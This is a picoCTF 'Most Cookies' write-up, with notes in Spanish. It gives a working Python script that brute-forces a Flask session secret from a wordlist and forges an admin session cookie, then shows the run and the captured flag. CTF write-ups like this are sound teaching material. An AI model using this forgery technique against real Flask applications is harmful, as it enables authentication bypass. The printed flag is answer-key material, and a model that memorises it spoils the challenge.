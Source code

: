 ## Description

Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/60f76192f6e1fea6f4e6e8c5fc9a6a27/server.py) [http://mercury.picoctf.net:44693/](http://mercury.picoctf.net:44693/)
#### Hints
- How secure is a flask cookie?
## python code modified
```python
# https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe#file-manageflasksession-py
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer
import requests

cookies = ["snickerdoodle", "chocolate chip", "oatmeal raisin",

                 "gingersnap", "shortbread", "peanut butter", "whoopie pie",

                   "sugar", "molasses", "kiss", "biscotti", "butter", "spritz",

                   "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon",

                     "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron",

                     "black and white", "white chocolate macadamia"]

class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
    # Override method
    # Take secret_key instead of an instance of a Flask app
    def get_signing_serializer(self, secret_key):
        if not secret_key:
            return None
        signer_kwargs = dict(
            key_derivation=self.key_derivation,
            digest_method=self.digest_method
        )

        return URLSafeTimedSerializer(secret_key, salt=self.salt,
                                      serializer=self.serializer,
                                      signer_kwargs=signer_kwargs)

def decodeFlaskCookie(secret_key, cookieValue):
    sscsi = SimpleSecureCookieSessionInterface()
    signingSerializer = sscsi.get_signing_serializer(secret_key)
    return signingSerializer.loads(cookieValue)


# Keep in mind that flask uses unicode strings for the
# dictionary keys
def encodeFlaskCookie(secret_key, cookieDict):
    sscsi = SimpleSecureCookieSessionInterface()
    signingSerializer = sscsi.get_signing_serializer(secret_key)
    return signingSerializer.dumps(cookieDict)

for name in cookies:
    session = {}
    session["very_auth"]="admin"
    print(name)
    cookie= encodeFlaskCookie(name, session)
    r = requests.get("http://mercury.picoctf.net:44693/display", cookies = {"session" : cookie}, allow_redirects = False)
    if "picoCTF" in r.text:
        print(r.text)
        break

  
if __name__=='__main__':
    sk = 'youWillNeverGuess'
    sessionDict = {u'Hello':'World'}
    cookie = encodeFlaskCookie(sk, sessionDict)
    decodedDict = decodeFlaskCookie(sk, cookie)
    assert sessionDict==decodedDict
```
## Solución

```shell
┌──(kali㉿kali)-[~/…/notas-seguridad-redes2024/web_picoCTF/parte4/most_cookies]
└─$ python3 most_solve.py
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Most Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Reset</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Most Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
                                                                                     
┌──(kali㉿kali)-[~/…/notas-seguridad-redes2024/web_picoCTF/parte4/most_cookies]
└─$ 
```


## Bandera
```css
flag: picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}
```
## Notas Adicionales
Se tomaron las cookies del código de python que nos proporcionaron y las añadimos al código de python que se anexa en la parte de arriba, el cuál fue obtenido de un repositorio de github, para crackear la cookie correcta. Luego se ejecuta el script de python desde una términal en kali linux y obtenemos la bandera.
# comandos utilizados

## Referencias
****